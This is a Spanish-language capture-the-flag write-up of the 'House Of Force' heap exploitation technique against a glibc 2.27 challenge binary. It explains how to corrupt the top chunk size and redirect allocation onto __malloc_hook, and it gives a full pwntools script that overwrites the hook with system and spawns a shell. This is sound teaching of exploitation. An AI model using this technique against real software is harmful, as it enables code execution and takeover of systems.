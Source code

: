 # House Of Force

```
Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x3fe000)
    RUNPATH:    b'$ORIGIN'
    Stripped:   No
    Debuginfo:  Yes
```

Este reto presentaba una introducción a la técnica homónima introducida en el *`Malloc Maleficarum`*.

La solucion es sencilla, dado que hay un heap overflow y contamos con glibc = 2.27 no hay verificacion de integridad del top chunk y tenemos los llamados "malloc hooks" para redirigir la ejecucion a pesar de que la GOT es de solo lectura.

Pasos:
1. Calculamos las direcciones de libc base y del top chunk con los leaks que nos brindan,
2. Reservamos un primer chunk y sobreescribimos el campo `size` del top chunk a `0xffffffffffffffff` (-1).
3. Reservamos un segundo chunk de tamaño `target_addr - top_chunk_addr - 0x20` --- siendo target_addr la direccion de `__malloc_hook` --- para posicionar el top chunk en nuestra direccion objetivo.
```
 # Explicacion del calculo
 # Nosotros queremos que new_top = __malloc_hook - len(prev_size) - len(size) = __malloc_hook - 0x10, para que en la proxima asignacion nuestro chunk apunte alli
      new_top = old_top + nb, nb es el numero de bytes reservados (10 bytes de metadata + sizeof(data))
      new_top =  __malloc_hook - 0x10
      __malloc_hook - 0x10 = old_top + nb
      __malloc_hook - 0x10 = old_top + 0x10 + size
      size = __malloc_hook - 0x10 - old_top - 0x10
      size = __malloc_hook - old_top - 0x20
```
5. Reservamos un tercer chunk --- cuyo campo de datos se encuentra en `__malloc_hook` --- y sobreescribimos la direccion del puntero con la direccion de `system`.
6. Reservamos un cuarto chunk con tamaño `binsh_addr`, provocando malloc(binsh_addr) =>  system("/bin/sh").

```py
from pwn import *
r = process("./house_of_force")
libc = ELF("./libc.so.6")

def malloc(size, data):
    r.sendline(b"1")
    r.sendlineafter(b"size:",str(size).encode())
    r.sendlineafter(b"data:",data)

r.recvuntil(b"@ ")
libc.address =  int(r.recv(14),16) - 0x80970

r.recvuntil(b"@ ")
top_chunk = int(r.recvline().strip(),16) + 0xb0

# Overwrite size of the top chunk
malloc(1,b"A"*24 + b"\xff"*8)

# Place new top chunk
evil_size = libc.symbols['__malloc_hook'] - top_chunk - 0x20
malloc(evil_size,b"")

# Overwrite __malloc_hook 
malloc(8,p64(libc.symbols['system']))

# Call system("/bin/sh")
malloc(next(libc.search("/bin/sh")),b"")

r.interactive()
```

